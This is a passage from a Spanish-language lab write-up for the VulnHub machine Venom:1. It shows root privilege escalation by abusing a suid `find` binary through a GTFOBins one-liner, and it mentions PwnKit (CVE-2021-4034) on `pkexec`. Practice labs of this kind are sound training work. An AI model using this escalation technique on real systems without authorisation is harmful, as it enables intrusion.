{: width="500" }

De todos los binarios con permisos *suid*, el que más nos debería llamar la atención es el comando `find`, ya que no suele ser común que este binario tenga este tipo de permisos; el resto son binarios bastante típicos (quitando `pkexec`, que posiblemente sea vulnerable a **PwnKit**, *CVE-2021-4034*, como en casi todas las máquinas).

### Abuso de permisos *suid*

Sabiendo esto, podemos apoyarnos en [GTFOBins](https://gtfobins.org) para ver la forma de conseguir una consola abusando de este binario:

{: width="600" }

```bash
find . -exec /bin/bash -p \; -quit
```



Y efectivamente, logramos escalar privilegios a usuario root abusando de un binario con permisos *suid*.



Una vez hecho habríamos completado la máquina **Venom:1** de VulnHub!!!
